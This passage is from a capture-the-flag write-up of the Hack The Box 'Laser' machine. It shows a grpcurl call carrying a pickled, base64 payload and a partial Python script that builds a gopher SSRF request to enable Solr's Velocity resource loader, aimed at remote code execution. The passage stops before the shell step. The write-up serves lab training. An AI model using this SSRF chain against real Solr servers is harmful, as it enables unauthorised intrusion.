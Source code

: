 I did some deserialization attempts after some tries, I got this. So we need to serialized the format and base64 encode it too.

```bash
ERROR:
  Code: Unknown
  Message: Exception calling application: Invalid base64-encoded string: number of data characters (5) cannot be 1 more than a multiple of 4 
```

So I just serialized this and base64 encoded it.

```json
{
"feed_url" : "http://localhost:8983"
}
```

And passed the output here and it worked. 

```bash
┌──(root🐺kali)-[~/htb/boxes/laser]
└─# grpcurl -plaintext -proto grpc_printer/service.proto -d '{"data": "Uyd7ImZlZWRfdXJsIjogImh0dHA6Ly9sb2NhbGhvc3Q6ODk4MyJ9JwpwMAou"}' 10.10.10.201:9000 Print.Feed                    
{
  "feed": "Pushing feeds"
}
```

## Getting User Shell

Now its time to get shell, we already know how to send GET and POST request using gopher. First we need to send a POST request to change the `Resource Loader Enabled` and we can get RCE.

```python
import pickle 
import base64
import os
import urllib

CORE = "staging"
#HOST = "10.10.14.30" # me
HOST = "localhost:8983"  # target
gopher = "gopher://"+HOST+"/"

print("[+] LASER RCE Automation Script")
print("[+] Script Started")
url =   "0POST /solr/"+CORE+"/config HTTP/1.1\r\n" \
        "Host: http://"+HOST+"\r\n" \
        "User-Agent: FeedBot v1.0\r\n" \
        "Content-Type: application/json;charset=utf-8\r\n" \
        "Connection: Close\r\n" \
        "Accept: */*\r\n" \
        "Content-Length: 206\r\n" \
        "\r\n" \
        "{\"update-queryresponsewriter\":{\"startup\":\"lazy\",\"name\":\"velocity\",\"class\":\"solr.VelocityResponseWriter\",\"template.base.dir\":\"\",\"solr.resource.loader.enabled\":\"true\",\"params.resource.loader.enabled\":\"true\"}}"
            
            
data = '{"feed_url": "'+gopher+urllib.quote(url)+'"}'
#print(data)
pickled = pickle.dumps(data)
print("[+] Sending POST to update config...")	
payload = base64.b64encode(pickled)
```